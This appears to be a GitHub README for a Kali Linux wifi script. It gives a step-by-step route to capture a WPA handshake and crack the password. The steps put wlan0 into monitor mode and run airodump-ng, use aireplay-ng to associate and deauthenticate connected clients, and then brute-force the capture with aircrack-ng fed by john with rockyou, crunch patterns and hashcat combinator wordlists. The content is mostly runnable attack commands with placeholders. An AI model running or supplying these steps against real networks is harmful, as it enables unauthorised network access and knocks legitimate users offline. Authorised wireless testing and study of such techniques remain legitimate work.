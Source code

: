 # kali wifi setup script

Just a basic script to bring a wlan0 interface up to monitor mode and start airodump-ng if required, once you have the interface running in monitor mode, then running airodump-ng you can use the process below in order to capture wireless data and aim to crack the wpa password.

Its worth noting here that airodump-ng has some awesome interactive features which i have briefly written about on my blog:  https://innogen-security.com/airodump-ng-interaction/


Route to capture wpa handshake

1: use the above output to decide on target and note details:
```
BSSID:     00:00:00:00:22:30
ESSID:     TESTAP
Client:    00:00:00:00:00:ED
Mon0:      00:00:00:00:00:A8
Channel:   11
```
2: Screen 1 - Monitor target for clients using: 

```airodump-ng -c <Channel> --bssid <BSSID> -w <CaptureName> <Mon0 interface name>```
  
3: Screen 2 - Associate with the bssid: 

```aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your Mon0 MAC> <Mon0 interface name>```
  
4: Screen 3 - death a connected client periodically until the wpa handshake is witnessed / captured in screen 1 
  
```aireplay-ng -0 1 -a <AP MAC> -c <Client MAC to DeAuth> <Mon0 interface name>```
  
5: Go get a life and hope that you can attack the wifi handshake captured

```john --wordlist=/usr/share/wordlists/rockyou.txt --rules --stdout | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap```

6: If you know a pattern for the wifi password then try the following items?

```crunch 8 8 abcdef1234567890 | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
crunch 8 8 abcdefghijklmnopqrstuvqxyz | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
```

7: Failing all the above and if you have a powerful enough GPU GTX 1080 :D then try combinations of words such as:

```/usr/lib/hashcat-utils/combinator.bin /usr/share/wordlists/rockyou.txt /usr/share/wordlists/rockyou.txt  |aircrack-ng -0 -e "THEAPANAME" -w - SOMEPATH/THECAPTURENAME.cap```


All of the above may produce 0 results and take a looong time to do so, however if weak words/pairs of words or weak default patterns are used then the above will yield a result eventually......maybe......hopefully......who knows......?
